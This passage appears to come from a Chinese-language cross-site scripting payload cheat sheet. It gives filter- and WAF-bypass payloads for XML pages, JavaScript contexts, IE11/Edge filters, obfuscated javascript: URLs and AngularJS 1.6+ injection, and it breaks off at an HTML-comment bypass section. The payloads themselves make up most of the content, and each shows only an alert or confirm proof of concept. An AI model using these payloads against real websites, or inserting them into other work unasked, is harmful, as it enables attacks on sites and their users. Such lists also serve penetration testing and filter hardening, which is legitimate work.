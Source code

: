 **用于在XML页面中绕过浏览器过滤和WAF。如果输入内容位于注释部分，则在payload前添加 `-->`；如果输入内容位于 CDATA 部分，则在payload前添加 `]]>`。 **

```javascript
<_:script xmlns:_="http://www.w3.org/1999/xhtml">alert(1)</_:script>
```



## Javascript 上下文 - 代码注入

**用于在将代码注入到javascript上下文时，绕过`Microsoft IE11`或`Edge`浏览器的安全机制  **

```javascript
';onerror=alert;throw 1//
```



## HTML上下文 - 标签注入(IE11/Edge XSS绕过)

**用于在多反射场景中绕过其原生过滤器**

```javascript
"'>confirm&lpar;1)</Script><Svg><Script/1=' 
```



## JavaScript 伪协议混淆

**用于绕过检测`javascript:alert(1)`的过滤器。确保在添加`alert(1)`之前，`1`能够通过过滤器，因为这种有效载荷可能需要额外的混淆才能完全绕过过滤器。最后一种方法仅适用于通过`DOM`操作处理payload的情况（例如基于位置的payload或DOM型XSS）。请确保在`URL`中正确编码它们  **

```javascript
javas&#99ript:1
javascript&colon;1
javascript&#9:1
&#1javascript:1
"javas%0Dcript:1"
%00javascript:1
```



## AngularJS 注入（V1.6+）- No Parentheses，Brackets or Quotes

**用于避免过滤。第一个payload避免使用括号，第二个payload避免使用方括号，最后一个payload通过同一或单独的注入点中使用它来避免引号。如果payload在URL中，请进行编码。**

```javascript
{{$new.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
&#123&#123$new.constructor('alert(1)')()&#125&#125
<x ng-init=a='alert(1)'>{{$new.constructor(a)()}}
```



## HTML注释绕过

**如果允许在HTML注释中使用任何内容（正则表达式：`/<!--.*-->/`），则使用的payload**
